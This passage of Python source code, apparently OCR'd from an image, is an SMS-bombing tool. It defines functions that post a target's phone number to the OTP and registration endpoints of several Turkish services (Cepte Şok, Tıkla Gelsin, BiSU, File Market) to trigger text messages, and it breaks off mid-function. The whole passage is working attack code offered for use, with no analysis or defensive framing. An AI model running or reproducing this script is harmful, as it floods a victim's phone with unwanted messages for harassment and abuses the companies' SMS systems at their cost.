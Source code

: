 def ceptesok(number):
    try:
        url = "https://api.ceptesok.com/api/users/sendsms"
        payload = {
            "mobile_number": f"{number}",
            "token_type": "register_token"
        }
        r = requests.post(url=url, json=payload, timeout=5)

        if r.status_code == 200:
            return True, "Cepte Şok"
        else:
            return False, "Cepte Şok"
    except:
        return False, "Cepte Şok"

def tiklagelsin(number):
    try:
        url = "https://www.tiklagelsin.com/user/graphql"
        payload = {
            "operationName": "GENERATE_OTP",
            "variables": {
                "phone": f"+90{number}",
                "challenge": f"{uuid.uuid4()}",
                "deviceUniqueId": f"web_{uuid.uuid4()}"
            },
            "query": "mutation GENERATE_OTP($phone: String, $challenge: String, $deviceUniqueId: String) {\n  generateOtp(\n    phone: $phone\n    challenge: $challenge\n    deviceUniqueId: $deviceUniqueId\n  )\n}\n"
        }
        r = requests.post(url=url, json=payload, timeout=5)
        if r.status_code == 200:
            return True, "Tıkla Gelsin"
        else:
            return False, "Tıkla Gelsin"
    except:
        return False, "Tıkla Gelsin"

def bisu(number):
    try:
        url = "https://www.bisu.com.tr/api/v2/app/authentication/phone/register"
        payload = {
            "phoneNumber": f"{number}"
        }
        r = requests.post(url=url, json=payload, timeout=5)
        if r.status_code == 200:
            return True, "BiSU"
        else:
            return False, "BiSU"
    except:
        return False, "BiSU"

def file(number):
    try:
        url = "https://api.filemarket.com.tr/v1/otp/send"
        payload = {
            "mobilePhoneNumber": f"90{number}"
        }
        r = requests.post(url=url, json=payload, timeout=5)
        r1 = json.loads(r.text)["data"]
        if r1 == "200 OK":
            return True, "File"
        else:
            return False, "File"
    except: